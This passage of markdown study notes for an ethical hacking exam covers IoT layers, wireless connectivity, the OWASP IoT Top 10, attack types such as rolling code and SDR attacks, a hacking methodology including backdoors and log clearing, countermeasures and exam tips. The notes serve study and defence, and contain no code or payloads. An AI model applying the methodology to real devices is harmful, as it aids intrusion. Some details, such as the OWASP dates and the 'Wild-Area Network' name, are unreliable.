  - Fake Node and Malicious: adding node to input fake data to stop transmitting real information
  - Replay (play back) attack: eavesdrops a communication and reusing it to authenticate.
  - Timing Attack: Extract secrets by observing respond time

#### Access gateway layer

- Also known as **network layer** or **transport layer**
- Handles data transmission i.e. transferring the data through network
- E.g. Wi-Fi, bluetooth
- Enables communication
  - Connects two endpoints e.g. a clients with a device.
  - Includes the initial data handling.
  - Through e.g. message routing, message identification, and subscriptions.
- **Key security components**
  - Encryption
  - Identity authentication
- **Vulnerabilities**
  - Denial of Service (DoS) Attack with redundant requests
  - Main-in-The-Middle (MiTM) Attack: to intercept and manipulate data in real-time
  - Storage Attack: Changing data stored in device or cloud
  - Exploit attack: Exploits vulnerabilities in an application, system or hardware

#### Internet layer

- Responsible for end-points connectivity.
- Carries out communication between two endpoints.
  - E.g. device-to-device, device-to-cloud, device-to-gateway and back-end data-sharing.

#### Middleware layer

- Also known as **processing layer**
- Responsible for device and information management.
- Handles data analytics
  - I.e. storing, processing and analysis of data.
  - E.g. data analysis, data aggregation, data filtering, device information discovery, and access control.
- Behaves as interface for two-way communication between
  - [Application layer](#application-layer) (the user interface).
  - [Edge technology layer](#edge-technology-layer) (the hardware).
- **Key security components**
  - Key security layer, secure cloud computing, antivirus
- **Vulnerabilities**
  - Exhaustion: Can disturb memory, battery e.g. after effect of a DoS
  - Malware

#### Application layer

- The user interface for
  - Graphic data representation
  - Controlling, managing and commanding IoT devices.
- Responsible for delivering *service* and *data* to users.
  - A service is application-specific e.g. industrial, manufacturing, automobile, security, healthcare...
- **Key security components**
  - Authentication
  - Key agreement
- **Vulnerabilities**
  - Cross site scripting: injecting code through e.g. JavaScript
  - Malicious code attack: can activate itself or require user attention to perform an action.
  - Dealing with Mass Data
    - Caused by massive amount of data transmission
    - Can lead to data loss and network disturbance

### Other IoT layers

#### Business layer

- Includes business models
- System management
- **Key security components**
  - Privacy protection
- **Vulnerabilities**
  - Business logic attack: exploits a programming flaw
  - Zero-day attack: exploits security hole unknown to the vendor

## IoT connectivity

### Wireless IoT connectivity

| Approx. range up to | Connectivity | Speed |
|:-------------------:| ------------ | ----- |
| 10 cm | NFC | 424 kbit/s |
| 1 m | RFID | 300 tags per second |
| 10 m | Li-Fi | 100 gbit/s |
| 60 m | Bluetooth low energi (BLE) | 1 or 2 mbit/s |
| 100 m | WiFi | 1300 mbit/s |
| 1 km | Wi-Fi HaLow | 78 mbit/s |
| 2 km | 5G | 20 gbit/s |
| 30 km | LTE-Advanced | 300 mbit/s |
| 70 km | Celullar | - (depends on 4g etc.) |
| 1000 km | LPWAN | 200 kbit/s |
| World-wide | VSAT | 16 mbit/s |

#### Short-range wireless communication

- **Bluetooth Low Energy (BLE)**
  - Newer versions of bluetooth (after 4.0)
  - Optimized for battery usage.
- **Wi-Fi**
  - Wireless network protocol using radio waves.
  - Wi-Fi 6 specification standard (2020) is the latest standard (x6 faster).
- **Radio-Frequency Identification (RFID)**
  - Data storage tag that can be attached to an item for tracking
  - Passive tag has range up to 1m while active tags can go up to 100m.
  - Used in e.g. passports, credit cards.
- **Li-Fi (Light-Fidelity)**
  - Similar to Wi-Fi, but using visible light for communication
- **Near-Field Communication (NFC)**
  - Based on a radio frequency (RF)
  - Used e.g. in phones, payment cards
  - Must either either physically touch or be in a few centimeters of each other.

#### Medium-Range Wireless Communication

- **LTE-Advanced**: Formally submitted as a candidate 4G, often being described as 3.9G.
- **Wi-Fi HaLow**: low power, long-range, also known as "WiFi for Internet of Things"
- **5G**: Introduced in 2019, highest with minimum of 10 Gbps

#### Long Range Wireless Communication

- **Low-Power Wild-Area Network (LPWAN)**
  - Long range communication (up to 10 km) at a low bit rate
- **(VSAT) Very Small Aperture Terminal**
  - World-wide satellite communication technology uses small dish antennas
- **Cellular** using e.g. radio towers to spread e.g. 4G, 5G..

### Wired IoT connectivity

- **Ethernet** (cat 6 up to 10 Gbps speed)
- **Power-Line Communication (PLC)** : using electrical wiring to carry power and data, around 200 Mbit/s.
# IoT security

## IoT threats

- **Lack of security**
  - Speed at which IoT is advancing makes it harder to keep up with evolving security requirements.
  - Being short on processing power and memory leads to lack of security solutions and encryption protocols.
- **Vulnerable interfaces**
  - For both device interfaces and other interfaces (e.g. cloud) it interacts with
  - E.g. lack of authentication/authorization, lacking or weak encryption, and a lack of input and output filtering.
- **Physical security risk**
  - Cannot secure them as traditional devices by e.g. the storage of routers in secure cabinets
- **Lack of vendor support**
  - The support of a certain device may get discontinued
- **Difficult to update firmware and OS**
  - Some require manual intervention to be upgraded, some cannot be upgraded at all
  - Being compliant makes harder to do changes to e.g. medical devices.
- **Interoperability issues**
  - Interoperability: "the ability to make systems and organizations work together" | [Wikipedia](https://en.wikipedia.org/wiki/Interoperability)
  - Each solution provides its own IoT infrastructure, devices, APIs, and data formats
  - Caused by competitive nature of IoT e.g. vendor lock-in

## OWASP Top 10 IoT (2018)

- OWASP Internet of Things Top Ten was introduced in 2004 and updated in [2018](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf)

1. **Weak, guessable, or hardcoded passwords**
   - Use of easily brute forced, publicly available, or unchangeable credentials
   - Including [backdoor](./../07-malware/malware-overview.md#backdoor)s in firmware or client software that grants unauthorized access to deployed systems
2. **Insecure network services**
   - Unneeded or insecure network services running on the device itself
   - Bigger threat for those that are expose to the internet
   - Allows compromise confidentiality, integrity/authenticity, or availability of information or allow unauthorized remote control...
3. **Insecure ecosystem interfaces**
   - Includes web, backend API, cloud, or mobile interfaces outside of the device
   - Allows compromise of the device or its related components.
   - E.g. lack of authentication/authorization, lacking or weak encryption, a lack of input and output filtering.
4. **Lack of secure update mechanism**
   - Lack of firmware validation on device
   - Lack of secure delivery (un-encrypted in transit)
   - Lack of anti-rollback mechanisms
   - Lack of notifications of security changes due to updates.
5. **Use of insecure or outdated components**
   - Use of deprecated or insecure software components/libraries
   - Insecure customization of operating system platforms
   - Use of third-party software or hardware components from a compromised supply chain
6. **Insufficient privacy protection**
   - Use of users personal information insecurely, improperly, or without permission.
7. **Insecure data transfer and storage**
   - Lack of encryption or access control of sensitive data
   - Can be anywhere within the ecosystem e.g. at rest, in transit, or during processing.
8. **Lack of device management**
   - Lack of security support on devices deployed in production
   - Capabilities include e.g. asset management, update management, secure decommissioning, systems monitoring, and response.
9. **Insecure default settings**
   - Can be shipped with insecure settings or without ability to make restrictions.
10. **Lack of physical hardening**
    - Easily accessible physically

## IoT attacks

## IoT attack surface areas

- **Device memory**: Credentials
- **Ecosystem access control**: Implicit trust between components
- **Device physical interfaces**: Privilege escalation, CLI
- **Device web interface**: SQL injection, XSS
- **Device firmware**: Sensitive data exposure, hardcoded credentials
- **Device network services**: Unencrypted/poorly encrypted services.
- **Administrative interface**: SQL Injection, XSS
- **Local data storage**: Data encrypted with discovered keys, lack of integrity checks.

## IoT attack types

- **Access control**
  - E.g. remote access control or gaining access to administration panels
- **BlueBorn Attack**
  - Amalgamation of techniques and attacks against known, already existing [Bluetooth vulnerabilities](./../09-wireless-networks/bluetooth.md#bluetooth-attacks)
- **Jamming Attack**
  - Also known as **signal jamming attack**
  - Jamming the signal to prevent the communication of devices
- **Man-in-the-middle attack**
  - E.g. by sniffing through [Foren6](https://github.com/cetic/foren6)
    - Passive sniffer
    - Reconstruct a visual and textual representation of network information to support real-world Internet of Thingl
- **HVAC attack**
  - Takes place when one hacks IoT devices in order to shut down air conditioning services.  
  - Can allow access to a corporate systems.
- [Backdoor](./../07-malware/malware-overview.md#backdoor) (not just IoT related)
- [Exploit kits](../07-malware/malware-overview.md#exploit-kit)
  - Malicious scripts used to exploit poorly patched devices.
- [Replay attack](./../06-system-hacking/cracking-passwords-overview.md#replay-attack)
  - Attackers send intercepted messages to target device to perform DoS.
  - See also [SDR-based attacks](#sdr-based-attacks)
- [Ransomware](./../07-malware/malware-overview.md#ransomware) attack
  - Type of malware that uses encryption to block user's access to his/her device.
- [Privilege escalation](./../06-system-hacking/escalating-privileges.md)
- [Side channel attack](./../16-cloud-computing/cloud-security.md#side-channel-attacks)
  - Attackers extract info about encryption keys by observing the emission signals (side channels) from IoT devices.
- [Web application attacks](./../13-web-applications/hacking-web-applications.md), [web server attacks](./../12-web-servers/web-server-threats-and-attacks.md)
- [Cloud computing attacks](./../16-cloud-computing/cloud-security.md#cloud-computing-attacks)
- [Mobile application threats](./../17-mobile-platforms/mobile-attacks.md)
- [DoS / DDoS](./../13-web-applications/denial-of-service.md)
  - Can be done by converting devices into an army of botnet.
- **Forged malicious devices**
  - Attackers replace authentic IoT devices  with malicious device.
- Resetting to an insecure state
- Removal of storage media
- Firmware attack
- Network service attacks
- Unencrypted local data storage
- Confidentiality and integrity issues
- Malicious updates
- Insecure APIs
- Eavesdropping
- **Sybil attack**
  - Attacker uses multiple forged identities to create strong illusion of traffic congestion.

### Rolling code attack

- Also known as **hopping code** attack.
- Used in keyless entry systems such as garage door openers and keyless car entry systems.
- Attacker capture signal from transmitter device, simultaneously blocking the receiver to receive the signal
- Attacker uses the signal to gain unauthorized access
- E.g. stealing car with captured signal
  - Attacker jams and sniffs the signal to obtain the code transferred to vehicle's receiver
- Tools include [HackRF One](https://greatscottgadgets.com/hackrf/one/) hardware tool.

### SDR-based Attacks

- Attackers use Software Defined Radio (SDR) to examine the communication signals in the IoT network and sends spam content or texts to the interconnected devices.
- Can also change the transmission and reception of signals between the devices.
- Includes
  - **Replay attack**
    - The attacker obtains frequency used for data sharing between devices and captures data.
  - **Cryptanalysis Attack**
    - Attacker uses same procedure as replay attack and also reverse engineering of the protocol to capture the original signal.
  - **Reconnaissance attack**
    - Attacker obtains info about the target device from the device's specification.
    - See also [information gathering](#information-gathering)

### Firmware extraction

- Allows looking for data in filesystem or reverse engineering it for vulnerabilities.
- Flow example:
  1. [`binwalk`](https://github.com/ReFirmLabs/binwalk) is a common tool for it found on Kali Linux.
  2. [`firmwalker`](https://github.com/craigz28/firmwalker) to list vulnerabilities by scanning all files.

### Device memory containing credentials

- Can be used for reading/manipulating data
- Allows pushing firmware updates
- Enables usage of devices to other devices in the network

### Fault injection attacks

- Also known as **perturbation attacks**
- Occur when a perpetrator injects any faulty or malicious program into the system to compromise the system security.
- **Optical, Electro Magnetic Fault Injection (EMFI), Body Bias Injection (BBI)**
  - Injection using projecting lasers and electromagnetic pulses.
- **Power/clock/reset/glitching**
  - Injections into power supply and clock network of the chip.
- **Frequency/voltage tampering**
  - Tampering with clock frequency of the chip
- **Temperature attacks**
  - Attackers alter the temp for the operating the chip.

### DNS rebinding

- Done by compromising browsers as traffic tunnels to exploit private services.
- Done through malicious script in a webpage to manipulate resolution of domain names.
- Can help to gain access over the target's router using a malicious JavaScript code injected on a web page.
  - After that, an attacker can assault any device activated using the default password.

## Hacking Methodology

### Information gathering

- Also known as **IoT footprinting**
- Includes collecting [information](./../02-footprinting/footprinting-overview.md#footprinting-information) regarding target IoT devices
- Information can include e.g. IP address,running protocols, vendor, type of device, hostname, ISP, device location, banner of the target IoT device.
- Can involve using
  - [IoT search engines](./../02-footprinting/search-engines-and-online-resources.md#iot-search-engines) to find manufacturer or device information.
  - Searching for hardware registrations in regulating bodies
    - Can help to find information regarding compliance standards, user Manuals, documentation, wireless operating frequency, and photos
    - E.g.
      - 📝 [FCC ID search](https://fccid.io/) by "United States Federal Communications Commission registry"
      - [IC ID Search](https://industrycanada.co/) by "Industry Canada (IC)"
      - [KCC identifier search](https://fccid.io/KCC.php) by  Korean Communications Commission
      - [CMII/CMIIT search](https://fccid.io/CMIIT-ID.php) by China Ministry of Industry and Information Technology
- See also [Footprinting](./../02-footprinting/footprinting-overview.md)

### Vulnerability scanning

- Scanning the network and devices to find vulnerabilities
- Search for weak password
- Software and firmware vulnerabilities
- Tools
  - [`nmap`](../03-scanning-networks/scanning-tools.md#nmap)
  - [`hping`](./../03-scanning-networks/scanning-tools.md#hping)
  - [Firmalyzer](https://www.firmalyzer.com/)
    - Security assessments with risk analysis in IoT networks
    - Proprietary platform

### Attack

- Exploiting vulnerabilities
- E.g. running [rolling code attack](#rolling-code-attack)

### Gain access

- Gain unauthorized access
- Privilege escalation
- Install backdoor

### Maintain attack

- Logging out
- Clearing logs
- Covering tracks

## IoT attack countermeasures

- **Encrypt**
  - Use encrypted communication (SSL/TLS)
  - Implement end-to-end encryption
  - Use VPN architecture
  - Encrypt drives
- **Password policies**
  - Use strong password
  - Ensure secure password recovery
- **Update devices**
  - Patch vulnerabilities
  - Firmware update
- **Restrict access**
  - Prevent the devices against physical tampering
  - Allow only trusted IP's to access device from internet
  - Implement strong authentication mechanisms.
    - E.g. two-Factor Authentication
  - Use Lockout feature to disable multiple login attempts
- **Monitor**
  - Implement IPS/IDS in the network
  - Periodic assessment of devices
- **Disable unused or unnecessary ports and services**
  - Disable UPnP port on routers
  - Monitor traffic on port 48101 for infected traffic
  - Disable telnet as it's insecure protocol
  - Disable Guest or Demo user accounts
# Exam readiness

- 125 questions in 4 hours (around ≈ 2 min per question)

## Tips for reviewing the notes

- Good idea to repeat common exam areas (marked with 📝) before the exam.
- Do practice tests, and search for the information you're not sure about while doing to tests to get a better understanding.

## Rules

- No interruption is allowed, e.g. going to toilet
  - Go to toilet before.
- Allowed to have paper and pencil, but probably not needed.
- Home proctored, ensure you have more than 4 hours to talk to the proctor.
- Your room:
  - Door must be closed
  - Cannot have more than one monitor (if laptop, only laptop screen)
  - No more than one PC
  - They require you to put your cell-phone far from camera where they can see it.
- Have your exam code ready, on paper on a text-editor ready to copy / paste
- You'll install software where proctor can see your desktop, see you on camera and listen to your on microphone.
- Microphone must stay on
- No headset is allowed
- For any problems you have a live chat window where proctor will answer to technical issues e.g. page is frozen.
- You can not speak during exam, cannot read questions out loud.
- You can reschedule if you're not ready.
- Scheduling exam: Manual process by writing to them with e-mail confirmations.

## Answers

- Not so much trickery, the answer that "sounds" true is likely to be true
- Encryption and authentication (e.g. • [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) • [DNSSec](../08-sniffing/sniffing-attacks-overview.md#dnssec-domain-name-system-security-extension)) are generally best solutions.
- Active/passive analogy is quite popular where active usually involves "interaction with the target".

## Exam techniques

- Read slowly, don't rush, if you don't understand question when reading twice, skip
  - Some answers can be correct answers for different questions.
  - Important to understand the question.
- Don't be scared: Questions looking complicated are not so complicated
- Sometimes multiple answers are right, but they want the most correct one.
  - Don't overthink, the simpler is probably the right one.
